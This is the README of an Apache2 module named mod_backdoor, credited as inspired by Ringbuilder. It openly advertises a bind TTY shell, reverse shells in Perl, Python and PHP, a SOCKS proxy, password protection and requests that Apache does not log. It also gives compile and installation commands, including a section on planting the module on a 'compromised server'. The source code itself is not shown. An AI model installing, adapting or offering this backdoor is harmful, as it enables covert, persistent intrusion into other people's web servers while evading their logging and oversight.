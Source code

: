 # Apache2 mod_backdoor
Apache2 Module Backdoor is inspired from Ringbuilder. <br/>

More info about Ringbuilder: https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>
Original Author : Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))

# Features

* Bind TTY Shell
* Reverse Shell (Perl,Python, PHP)
* Socks proxy (Socks5 code from https://github.com/fgssfgss/socks_proxy)
* Password Protection
* Ping module to know if its active
* Endpoint that restart Apache2

All the requests to the module **are not logged by Apache2**


# Notes
Socks5 code was adapted from https://github.com/fgssfgss/socks_proxy

# Build
For developpement :<br/>
* `apxs -i -a -c mod_backdoor.c -Wl,-lutil` <br/>
 -Wl,-lutil used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On compromised server :<br/>
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Create `/etc/apache2/mod-available/backdoor.load` with content:<br/>
 `LoadModule backdoor_module /usr/lib/apache2/modules/mod_backdoor.so`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

